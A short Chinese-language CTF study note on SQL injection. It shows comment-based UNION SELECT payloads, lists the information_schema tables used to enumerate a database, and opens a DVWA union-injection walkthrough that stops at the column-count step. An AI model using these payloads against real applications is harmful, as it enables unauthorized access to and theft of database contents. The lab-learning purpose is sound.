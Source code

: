 ### 语法参考与小技巧

#### 参数类型

数字、字符、搜索、JSON等

#### 提交方式

POST、GET、Cookie、Request



#### 行内注释

==作用就是把后面的特殊符号给注释掉，避免语法错误==

+ `--`    

```
SELECT parentId,parentName FROM `parent` where parentId = '2016000011' UNION SELECT 1,DATABASE() -- '
```

==注：`--`符号之后要加一个空格==

+ `#`

```shell
 SELECT parentId,parentName FROM `parent` where parentId = '2016000011' UNION SELECT 1,DATABASE() #'
```

#### 利用information_schema数据库

+ 利用的前提是：首先应该知道database（）[也就是当前数据库的名字]
+ 在知道当前使用的数据库的名字之后，利用如下SQL语句进行查询

```shell
select 要查询的字段名 from 库名.表名 where 已经字段名字=已知条件的值
```

+ 因为mysql5.0以上版本自带数据库，information_schema库中记录着当前mysql中所有的数据库名、表名、列名等信息。下列是存放各信息的名字。

```
information_schema.schemata: 记录数据库信息的表
information_schema.tables: 记录表名信息的表
information_schema.columns: 记录列名信息的表
schema_name:  数据库名
table_name:  表名
column_name:  列名
table_schema:  数据库名
```

+ dvwa SQL注入实例**（联合注入）**

  > ==第一步==确定显示的列数，通过 `order by 或者union select 1,2···*`语句判断列数

  + 正确结果

  ![image-20210415173833139](CTF-WEB篇.assets/image-20210415173833139.png)
